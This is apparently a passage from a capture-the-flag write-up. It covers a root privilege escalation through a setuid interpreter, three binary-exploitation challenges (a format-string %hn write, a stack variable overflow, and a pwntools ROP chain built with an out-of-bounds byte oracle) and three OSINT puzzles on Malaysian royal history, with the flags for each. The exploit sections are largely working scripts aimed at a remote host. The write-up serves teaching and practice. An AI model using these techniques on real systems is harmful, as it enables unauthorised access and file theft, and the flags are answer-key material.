I used `os.setuid(0)` and replaced the process with a privilege-preserving Bash shell:

```bash
/usr/local/bin/warta-audit -c \
  'import os; os.setuid(0); os.execl("/bin/bash", "bash", "-p")'
```

I verified the new identity and read the root flag:

```bash
id
cat /root/root.txt
```

```text
3108{cf1bd2eb6bd2fe7bb343a76fd5fe4363}
```

This was the **Warta Kelate (`root.txt`)** objective.

#### Flags

User:

```text
3108{47a155cafb53ee9aacdf700486356077}
```

Root:

```text
3108{cf1bd2eb6bd2fe7bb343a76fd5fe4363}
```

---

---

# PWN

---

## 1. Warkah Diraja



### Challenge overview

The story hinted that the program copied input without validation and protected its archive with a filename. I started by testing for a format-string bug.

#### Discovering the format-string vulnerability

The service passed my `Titah` directly to `printf`, so positional specifiers such as `%p`, `%s` and `%n` operated on process memory.

I placed a recognizable 64-bit sentinel after the format string and probed positional arguments:

```text
0xdeadbeefcafebabe
```

Once the service printed the sentinel, I knew which argument index referred to my packed address.

#### Understanding the reference leak

The banner leaked a “reference seal” address. I traced it to `stdin`, not to executable code.

The writable filename buffer was 0x20 bytes before that address and contained:

```text
warkah_00.txt
```

The denied entry was number 31, so I only needed to change two bytes:

```text
warkah_00.txt  ->  warkah_31.txt
```

I calculated the write target with:

```python
digit_target = reference - 0x20 + len("warkah_")
```

#### Constructing the `%hn` write

`%hn` writes the current printed-character count as a 16-bit value. On little-endian x86-64, the bytes `31` correspond to:

```python
desired_halfword = int.from_bytes(b"31", "little")
```

I began the payload with `DAULAT` so the program would open the selected entry after processing the decree. A width specifier brought the character count to the halfword I wanted before `%hn` performed the write.

The important part was:

```python
prefix = "DAULAT"
width = desired_halfword - len(prefix)
fmt = f"{prefix}%{width}c%{write_arg}$hn".encode()
```

I placed the address of the two filename digits at the stack slot I had identified. When the program processed the decree:

1. `printf` changed `00` to `31`;
2. the `DAULAT` path opened `warkah_31.txt`; and
3. the service returned its contents.

#### Flag

```text
3108{T1t4h_B0c0r_d4r1_1ng4tan_I5tan4}
```

#### Why the exploit worked

The `%n` family turned the format string into a write primitive. Since the permitted and secret filenames differed by only two adjacent bytes, one `%hn` write was enough.

---

## 2. Cogan Alam



### Challenge overview

I was given a 64-bit Linux binary that simulated the royal procession of the Cogan Alam. The program generated a random value called `Tera`, asked for the name of its bearer and only revealed the flag when the bearer's `Darjat` matched that value.

The intended chain was:

```text
leak the current Tera
  -> overflow the name buffer
  -> overwrite the adjacent Darjat variable
  -> make Darjat equal Tera
  -> reach the flag branch
```

#### Initial inspection

I started by identifying the binary and checking its protections:

```bash
file cogan_alam
checksec --file=cogan_alam
strings -a -n 4 cogan_alam
```

The interesting strings included:

```text
=== Perarakan Cogan ===
Tera perarakan hari ini: 0x%08x
Nama pendukung:
Darjat tercatat: 0x%08x
Cogan didukung. Daulat:
```

This showed that the program printed the required `Tera` value before reading my input. I then disassembled `main` to understand where the name and `Darjat` were stored:

```bash
objdump -d -M intel cogan_alam | sed -n '/<main>:/,/^$/p'
```

#### Finding the stack-variable overwrite

The important stack layout was:

```text
name   = rsp + 0x10
darjat = rsp + 0x50
```

The distance between the two variables was therefore:

```text
0x50 - 0x10 = 0x40 = 64 bytes
```

However, the program allowed up to `0x48`, or 72 bytes, to be read into `name`:

```asm
read(0, name, 0x48)
```

This meant that any input longer than 64 bytes overflowed into `darjat`. The program later performed a comparison equivalent to:

```c
if (darjat == tera) {
    print_flag();
}
```

There was no need for a ROP chain, shellcode, or canary bypass. I only needed 64 padding bytes followed by the leaked 32-bit `Tera` value in little-endian order:

```python
payload = b"A" * 64 + struct.pack("<I", tera)
```

#### Keeping the leak and payload on one connection

My first manual attempt failed even though the offset was correct. After comparing the two banners, I noticed that every new connection generated a different `Tera`.

Reading the leak with `nc`, closing it and then opening another connection to send the payload would therefore use a stale value. The solver had to read the current leak and send the matching overflow without disconnecting.

I used the following one-shot Python exploit:

```python
#!/usr/bin/env python3
import re
import socket
import struct

HOST = "168.144.106.166"
PORT = 30000

with socket.create_connection((HOST, PORT)) as sock:
    banner = b""

    while b"Nama pendukung:" not in banner:
        chunk = sock.recv(4096)
        if not chunk:
            raise SystemExit("Connection closed before the input prompt")
        banner += chunk

    print(banner.decode(errors="replace"), end="")

    match = re.search(
        rb"Tera perarakan hari ini:\s*0x([0-9a-fA-F]{8})",
        banner,
    )

    if not match:
        raise SystemExit("Could not parse the leaked Tera value")

    tera = int(match.group(1), 16)
    print(f"[+] Leaked Tera: 0x{tera:08x}")

    payload = b"A" * 64 + struct.pack("<I", tera)
    sock.sendall(payload)

    while True:
        chunk = sock.recv(4096)
        if not chunk:
            break
        print(chunk.decode(errors="replace"), end="")
```

I saved it as `solve_cogan.py` and ran it with:

```bash
python3 solve_cogan.py
```

The script parsed the current `Tera`, packed it as a little-endian 32-bit integer and placed it directly over `darjat`. The comparison succeeded and the service returned the flag.

#### Flag

```text
3108{c0g4n_4l4m_d1dukung_d4rj4t_d1r3but}
```

#### Why the exploit worked

The input buffer and security value were adjacent on the stack, but the program read eight bytes beyond the end of the buffer. Since it also disclosed the randomized comparison value before accepting input, I could overwrite `darjat` with the exact value expected for that connection. The randomization offered no protection once both the leak and overflow were handled in the same session.

---

## 3. Majlis Raja Raja



### Challenge overview

I was given a stripped, statically linked 64-bit ELF that simulated a meeting of nine rulers. The service ran for 2,600 rounds and asked me to choose a ruler by index, followed by a signed priority value.

At first, the program looked like a guessing game. Reversing the input logic showed that the index was never restricted to the nine-byte priority array. This turned the comparison into an out-of-bounds stack oracle.

The complete exploit path was:

```text
out-of-bounds array index
  -> signed byte-comparison oracle
  -> leak stack bytes with binary search
  -> exact guesses unlock arbitrary byte writes
  -> leak the caller's saved RBP
  -> calculate stack addresses
  -> overwrite the saved return address with a ROP chain
  -> read /home/majlis/ketetapan.txt
  -> print the flag
```

#### Initial inspection

I started by checking the binary and searching for interesting strings:

```bash
file majlis
checksec --file=majlis
strings -a -n 4 majlis | less
objdump -d -M intel majlis > majlis.dis
```

The binary was static and non-PIE, so the ROP gadgets and libc wrapper addresses were fixed. One string later became especially important:

```text
/home/majlis/ketetapan.txt
```

That was the real server-side flag path. My first ROP attempt used `/flag`; the chain returned normally but printed nothing useful. After searching the ELF more carefully, I found `ketetapan.txt` and corrected the path.

#### Understanding the byte oracle

Each round asked for an array index and a priority guess. The program compared my signed value with the byte at that index and responded in one of three ways:

```text
Belum sampai giliran       -> guess is lower than the target byte
Giliran sudah terlepas     -> guess is higher than the target byte
Titah diterima             -> guess is exactly correct
```

Because the index was not bounds-checked, I could compare against any nearby byte on the stack. The lower-or-higher responses allowed me to recover each signed byte with a binary search over `-128` to `127`.

The equality case was even more useful. When my guess was correct, the program asked for `Keutamaan baharu` and stored my replacement value at the same out-of-bounds index. The bug therefore provided both a byte-wise read and a byte-wise arbitrary write.

Conceptually, the primitive was:

```python
def recover_or_write_byte(index, replacement=None):
    low, high = -128, 127

    while low <= high:
        guess = (low + high) // 2

        # Send index and signed-byte guess to the service.
        result = compare(index, guess)

        if result == "equal":
            original = guess & 0xff
            write(original if replacement is None else replacement)
            return original
        elif result == "lower":
            low = guess + 1
        else:
            high = guess - 1
```

#### Calculating the stack addresses

From the disassembly and local testing, I found the caller's saved `RBP` at oracle index 42. Leaking eight bytes from that position gave me a stack pointer despite ASLR.

The priority-array base used by the oracle could then be calculated with:

```python
caller_rbp = leak_qword(42)
oracle_base = caller_rbp - 0xea
```

The saved return address was at index 82. I selected two unused areas farther up the same stack frame for the flag path and read buffer:

```python
RET_INDEX  = 82
PATH_INDEX = 900
BUF_INDEX  = 1100

path_address = oracle_base + PATH_INDEX
buffer_address = oracle_base + BUF_INDEX
```

Since I was writing directly beyond the array, I could replace the saved return address without corrupting the stack canary.

#### Building the ROP chain

The binary's seccomp policy still allowed the file operations needed for an ORW chain: `close`, `open`, `read`, `write` and process exit.

I used these fixed gadgets and wrapper functions:

```python
POP_RDI     = 0x401d39
POP_RSI_R15 = 0x401d37
POP_RDX_RBX = 0x401955

CLOSE       = 0x41c460
OPEN        = 0x41c550
READ        = 0x41c670
WRITE       = 0x41c710
EXIT_GROUP  = 0x41c400
```

Initially, I assumed that `open()` would return file descriptor 3. That worked locally but could fail behind a remote launcher because descriptor 3 might already be occupied. I made the chain deterministic by calling `close(3)` before opening the flag file.

I also restored `RSI` and `RDX` explicitly before `write()` instead of assuming the preceding `read()` wrapper preserved them:

```python
chain = [
    POP_RDI, 3,
    CLOSE,

    POP_RDI, path_address,
    POP_RSI_R15, 0, 0,
    OPEN,

    POP_RDI, 3,
    POP_RSI_R15, buffer_address, 0,
    POP_RDX_RBX, 0x100, 0,
    READ,

    POP_RDI, 1,
    POP_RSI_R15, buffer_address, 0,
    POP_RDX_RBX, 0x100, 0,
    WRITE,

    POP_RDI, 0,
    EXIT_GROUP,
]
```

This produced a 240-byte chain. Together with the path and initial stack leak, it still fit within the 2,600 available rounds.

#### Final exploit

I used the following pwntools script against the service:

```python
#!/usr/bin/env python3
from pwn import *
import re

HOST = "168.144.106.166"
PORT = 30013
TOTAL_ROUNDS = 2600

POP_RDI     = 0x401d39
POP_RSI_R15 = 0x401d37
POP_RDX_RBX = 0x401955
CLOSE       = 0x41c460
OPEN        = 0x41c550
READ        = 0x41c670
WRITE       = 0x41c710
EXIT_GROUP  = 0x41c400

io = remote(HOST, PORT)
rounds = 0

io.recvuntil(b"Giliran raja: ")

def recover_or_write_byte(index, replacement=None):
    global rounds
    low, high = -128, 127

    while low <= high:
        guess = (low + high) // 2

        io.sendline(str(index).encode())
        io.recvuntil(b"Aju keutamaan: ")
        io.sendline(str(guess).encode())

        output = io.recvuntil((
            b"Keutamaan baharu: ",
            b"Giliran raja: ",
        ))
        rounds += 1

        if b"Keutamaan baharu:" in output:
            original = guess & 0xff
            new_value = original if replacement is None else replacement & 0xff
            io.sendline(str(new_value).encode())
            io.recvuntil(b"Giliran raja: ")
            return original

        if b"Belum sampai giliran" in output:
            low = guess + 1
        elif b"Giliran sudah terlepas" in output:
            high = guess - 1
        else:
            raise RuntimeError(f"Unexpected response: {output!r}")

    raise RuntimeError(f"Failed to recover byte at index {index}")

def leak_qword(index):
    data = bytes(recover_or_write_byte(index + i) for i in range(8))
    return u64(data)

def write_blob(index, data, label):
    for offset, value in enumerate(data):
        recover_or_write_byte(index + offset, value)

        if (offset + 1) % 24 == 0 or offset + 1 == len(data):
            log.info(
                f"{label}: {offset + 1}/{len(data)} bytes "
                f"(rounds={rounds})"
            )

caller_rbp = leak_qword(42)
oracle_base = caller_rbp - 0xea

log.success(f"caller RBP  = {caller_rbp:#x}")
log.success(f"oracle base = {oracle_base:#x}")

RET_INDEX  = 82
PATH_INDEX = 900
BUF_INDEX  = 1100

path_address = oracle_base + PATH_INDEX
buffer_address = oracle_base + BUF_INDEX

flag_path = b"/home/majlis/ketetapan.txt\x00"

chain = [
    POP_RDI, 3,
    CLOSE,

    POP_RDI, path_address,
    POP_RSI_R15, 0, 0,
    OPEN,

    POP_RDI, 3,
    POP_RSI_R15, buffer_address, 0,
    POP_RDX_RBX, 0x100, 0,
    READ,

    POP_RDI, 1,
    POP_RSI_R15, buffer_address, 0,
    POP_RDX_RBX, 0x100, 0,
    WRITE,

    POP_RDI, 0,
    EXIT_GROUP,
]

rop = b"".join(p64(value) for value in chain)

write_blob(PATH_INDEX, flag_path, "path")
write_blob(RET_INDEX, rop, "ROP")

remaining = TOTAL_ROUNDS - rounds
if remaining < 0:
    raise RuntimeError(f"Round budget exceeded: {rounds}")

log.success(f"ROP installed after {rounds} rounds")
log.info(f"Fast-forwarding the remaining {remaining} rounds")

io.send(b"-1\n" * remaining)
output = io.recvall(timeout=15)
print(output.decode(errors="replace"))

match = re.search(rb"3108\{[^}\r\n]+\}", output)
if match:
    log.success(f"FLAG: {match.group().decode()}")
```

After roughly 2,100 oracle rounds, the ROP chain was complete. I sent invalid indexes for the remaining turns, allowed the function to return into the overwritten saved address and received the contents of `ketetapan.txt`.

#### Flag

```text
3108{M4jl1s_B3rsur4i_T1t4h_T3rm3ter4i}
```

#### Why the exploit worked

The unchecked index exposed stack memory beyond the nine-byte array. The comparison responses turned that access into a byte leak, while the equality branch turned it into an arbitrary byte write. Leaking one saved stack pointer defeated ASLR for the stack and the static non-PIE binary supplied fixed ROP addresses. With enough rounds to write the path and chain byte by byte, I could perform a seccomp-compatible ORW operation and print the flag file.

---

---

# OSINT

---

## 1. Taman Hati



### Challenge Overview

Basically I need to find a place from an image:


Which if you Google reverse image, the Google AI will tell you that its Padang Maziah. The tricky part is finding the latitude and longitude. After several bruteforce attempt of the latitude and longitude I finally get the flag. I hate the challenge creator sm.


#### Flag

```text
3108{Padang_Maziah_5.3367,103.1384}---
```

---

## 2. Sebuah Istana



### Challenge overview

The challenge showed a photograph of a royal palace and gave several clues:

- it was located in the royal town of Klang, Selangor;
- it was used for official royal affairs and ceremonies;
- coronation customs were held there; and
- I had to identify the last younger sibling of the ruler associated with it.

This was an OSINT challenge, so the main difficulty was following the relationship between the building, the ruler and his family tree without mixing up similarly named palaces or members of the Selangor royal family.

#### Identifying the palace

I began with a reverse-image search and compared the architecture with photographs of royal buildings in Klang. The closest match was **Istana Alam Shah**.

I confirmed the location through the [Selangor State Government portal](https://portalsuk1.selangor.gov.my/index.php/pages/view/78?mid=537), which lists Istana Alam Shah at Jalan Istana, Klang. Government records also describe coronation ceremonies being held at its Balairung Seri.

My initial searches included:

```text
istana diraja Klang tempat istiadat pertabalan
"Istana Alam Shah" Klang sejarah
istana dibina zaman Sultan Alaeddin Sulaiman Shah
```

The historical clue connected the palace with **Sultan Alaeddin Sulaiman Shah**, the fifth Sultan of Selangor. Once I had the ruler's name, the question changed from identifying a building to reconstructing a family relationship.

#### Tracing the royal family

I searched for the children of Raja Muda Musa and the younger siblings of Sultan Alaeddin Sulaiman Shah:

```text
"Sultan Alaeddin Sulaiman Shah" adinda
"Raja Muda Musa" children Selangor
"Raja Chik" "Raja Muda Musa"
```

Several pages repeated the same sequence of five younger siblings:

1. Raja Yahya Sani;
2. Raja Abdul Murad;
3. Raja Muhammad Tahir;
4. Raja Taksiah; and
5. Raja Chik.

I cross-checked the names against the [Royal Ark genealogy for Selangor](https://www.royalark.net/Malaysia/selang5.htm). Its family tree lists Sultan Alaeddin Sulaiman Shah as a son of Raja Muda Musa, followed by Raja Yahya Sani, Raja Abdul Murad, Raja Muhammad Tahir, Raja Taksiah and **Raja Chik binti Raja Muda Musa**.

The wording *adinda beliau yang terakhir* referred to the last younger sibling in that sequence. This ruled out the Sultan's children and later members of the Selangor royal family who had similar names.

#### Formatting the answer

The full answer was:

```text
Raja Chik binti Raja Muda Musa
```

I replaced the spaces with underscores and used the capitalization accepted by the challenge.

#### Flag

```text
3108{Raja_Chik_Binti_Raja_Muda_Musa}
```

---

## 3. Kudrat Raja Berdaulat



### Challenge overview

The challenge supplied an image of a mountainous river landscape together with the following clue:

```text
Raja berdaulat memayungi sekelian rakyat,
menebas ancaman durjana demi keamanan watan.
Siapakah sang durjana.

Flag format: 3108{md5hash}
```

I had to identify the *sang durjana* mentioned by the clue and submit the MD5 hash of its name. The wording sounded like a reference to a Malay royal legend rather than a modern person or event.

#### Narrowing down the historical reference

I began with direct searches using the more distinctive parts of the clue:

```text
"Raja berdaulat memayungi sekelian rakyat" durjana
"menebas ancaman durjana" raja
"sang durjana" hikayat Melayu
raja Melayu pedang membunuh naga
```

The complete sentence did not immediately produce a useful match. For the first few minutes, most results were too broad because words such as *raja*, *durjana* and *watan* appear in many stories and poems.

I then treated each part of the clue separately. The ruler protects the people, an enemy threatens the peace and the threat is cut down. The verb *menebas* suggested that a royal weapon might be the intended link. The river and mountain scenery in the supplied image also appeared more likely to represent part of a legend than the literal location of a palace.

After trying combinations involving Malay royal weapons and legendary enemies, I found references to **Pedang Cura Si Manja Kini**, one of the royal regalia of Perak. This was the first result that connected all the clues instead of only matching one or two words.

#### Identifying the durjana

I verified the story using the [official website of the Sultan of Perak](https://sultan.perak.gov.my/index.php/informasi-kesultanan/alat-alat-kebesaran-negeri-perak). Its description of Pedang Cura Si Manja Kini explains that Sang Sapurba ordered Permasku Mambang to kill a naga named **Saktimuna** with the sword because it was threatening the people of Minangkabau.

That gave me a direct mapping between the challenge wording and the legend:

- *Raja berdaulat* referred to the royal setting surrounding Sang Sapurba;
- *memayungi sekelian rakyat* matched the protection of the threatened population;
- *menebas* pointed towards Pedang Cura Si Manja Kini; and
- *ancaman durjana* was the naga **Saktimuna**.

The image clue also made more sense after finding the sword. The same official account says that *Cura Si Manja Kini* derives from the Sanskrit *Churiga (Si) Mandakini*, referring to Mandakini near the Ganges. The river landscape was therefore likely an indirect hint towards the sword and its legend.

#### Generating the flag

The required format used an MD5 hash, so capitalization mattered. I first hashed the proper-noun spelling exactly as it appeared in the historical account:

```bash
printf %s 'Saktimuna' | md5sum
```

Output:

```text
dd79694c1f762ec389a2f5f5450d955c  -
```

I placed that digest inside the required flag wrapper and submitted it successfully.

#### Flag

```text
3108{dd79694c1f762ec389a2f5f5450d955c}
```

---

And.. thats the end of it. Thankyou for reading. Since I made this in rush, you guys may contact me if you want more detailed writeup. Just dm me on linkedin or instagram or anywhere you want :P
